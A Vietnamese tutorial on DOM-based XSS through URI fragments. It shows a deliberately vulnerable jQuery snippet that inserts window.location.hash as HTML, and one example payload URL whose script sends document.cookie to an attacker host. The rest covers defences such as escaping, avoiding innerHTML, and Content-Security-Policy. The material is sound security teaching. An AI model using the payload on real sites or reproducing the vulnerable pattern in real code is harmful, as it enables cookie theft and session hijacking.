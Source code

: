 # Giới thiệu
Một vài kiểu tấn công `xss` không yêu cầu lỗ hổng server. Nếu như site của bạn sử dụng `URI fragments` , bạn cần chắc chăn chúng không thể bị lạm dụng để tiêm mã độc Javascript. Không dài dòng nữa, mình sẽ demo luôn nhé.

# Cách thức hoạt động
Khi mà các `JS` frameworks trở nên chặt chẽ hơn, nhiều dev đang đẩy logic về phía client cũng tương đương với việc phải biết cách chống lỗ hổng xảy ra ở browser. Ứng dụng web thường sử dụng [URI](https://vi.wikipedia.org/wiki/URI) như một phần của [URL](https://vi.wikipedia.org/wiki/URL) phía sau dấu `#`. Nó là cách tiện dụng để lưu lại vị trí người dùng đang xem trong page, lưu lại lịch sử duyệt web, nhưng không cần lượn vài vòng đến server :))

`URI fragments` không gửi với HTTP requests, vậy nên chúng cần thông dịch vời client-side JS. Bạn nên cẩn thận rằng việc xử lý các đoạn `URI` không cho phép inject JavaScript độc hại. Hãy xem một trang web có thể dễ bị tổn thương bởi `DOM-BASED XSS` như thế nào nhé :)

Ví dụ website có `infinite scroll`: nội dung được load động khi page được  cuộn xuống. Nếu như người dùng bị điều hướng tới tới site khác, và khi nhấn nút back, site có thể reload lại nội dung cuối cùng họ xem. Tuy nhiên, có một lỗ hổng khi dùng cách này . Site update số trang chuyển hướng từ `URI fragments`, và không kiểm tra nội dung:
```js
$(document).onload(function() {
  var page = window.location.hash;
  loadPage(page);

  $("#page-no").html(page);
});
```
Điều này có nghĩa là kẻ tấn công có thể xây dựng `URL` với mã Js độc trong `URI`, và khi có ai đó bị lừa truy cập vào `URL` đó, đoạn JS sẽ được thực thi trên trình duyệt của họ. Ví dụ với đường dẫn `www.chinterest.com#<script>window.location="http://www.haxxed.com?cookie="+document.cookie</script>` được chuyển thành `haxxed.com?cookie=asFFEfn222fefeknladas`.

Ao kay, bạn có thể thấy là nó nguy hiểm phết đấy chứ nhỉ.
# Rủi do
`XSS` là một trong những cách phổ biến nhất mà hacker sử dụng để tấn công. Lỗ hổng `XSS`  cho phép đoạn mã độc có thể thực thi tùy ý khi nạn nhân truy cập vào trang của bạn.

Nhìn chung đây là lỗi cũng khá là hiếm gặp, dễ khai thác, và cũng rất nguy hiểm. Bất kỳ trang nào sử dụng các đoạn URI đều có khả năng gặp rủi ro từ các cuộc tấn công XSS.

# Bảo vệ
### Sử dụng Javascript framework
Các framework như là `AngularJS` và `React` sử dụng templates cho việc xây dựng `ad-hoc HTML` trở thành một hành động rõ dàng. Nó sẽ đẩy team dev của chúng ra hướng tới các best practices, và khiến cho các hoạt động không an toàn trở nên dễ phát hiện hơn.

Trong `React`, bất cứ nội dung động nào được biết trong dấu ngoặc nhọn sẽ tự động được `escaped`, do đó nó sẽ trở nên an toàn như đoạn mã sau:
```js:react
render() {
  return <div>{dynamicContent}</div>
}
```
`React` cũng cho phép bạn show ra raw html bằng cách bingding content vào thuộc tính `dangerouslySetInnerHTML`, nó được đặt tên như vậy là để nhắc nhở về tính rủi do khi sử dụng. Đây là đoạn code ví dụ
```js:react
render() {
  return <div dangerouslySetInnerHTML={ __html: dynamicContent } />
}
```
### Kiểm tra code của bạn cẩn thận
Thỉnh thoảng Js framework quá nặng cho website của bạn. Trong trường hợp này bạn sẽ cần thường xuyên tiến hành review code để tham chiếu những chỗ sử dụng `window.location.hash`. Xem xét đưa ra các tiêu chuẩn về về sử dụng `URI` và tập trung phần logic này trong phần lõi của thư viện.

Chẳng hạn như `JQuery`, cẩn thận kiểm tra những chỗ sử dụng hàm `html()` và sử dụng thay thế nó bằng `text()` khi có thể bởi vì nếu in ra raw html sẽ rất nguy hiểm.

Nếu bạn sử dụng nateive DOM APIs, tránh những thuộc tính và hàm sau:
* [innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)
* [outerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/outerHTML)
* [document.write](https://developer.mozilla.org/en-US/docs/Web/API/Document/write)

Thay vào đó, đặt nội dung bên trong thẻ bất cứ khi nào có thể:
* [innerText](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerText)
* [textContent](https://developer.mozilla.org/en-US/docs/Web/API/Node/textContent)

### Parse JSON cẩn thận
Chẳng hạn thay vì sử dụng `evel(...)` thì chúng ta sẽ sử dụng `JSON.parse(...)`.

### Phát hiện code không an toàn băng cách sử dụng development Tools
Google đã release [Chrome plug-in](https://code.google.com/p/domsnitch) có thể nhận biết được nhưng đoạn code thúi **thường gặp** ở phía client.

### Implement a Content-Security Policy
Bằng cách settting `cntent security policy` trong `response header`, bạn có thể cho trình duyệt biết là không được phép thực thi mã inline JS, và khóa nhưng domain nào có thể lưu trữ JS cho page
```
Content-Security-Policy: script-src 'self' https://apis.google.com
```
Hoặc đặt trong thẻ `<meta>`
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://apis.google.com">
```
Bằng cách thêm `report-uri` trong policy header, trình duyệt sẽ cảnh báo bạn trước mọi policy violations thay vì ngăn chặn inline JS thực thi:
```
Content-Security-Policy-Report-Only: script-src 'self'; report-uri http://example.com/csr-reports
```

Và cuối cùng: **Don’t Use URI Fragments At All!**

# Tổng kết
Trên đây là kiến thức về `DOM-BASED XSS`, hy vọng sẽ hữu ích cho bạn. Happy coding ! <3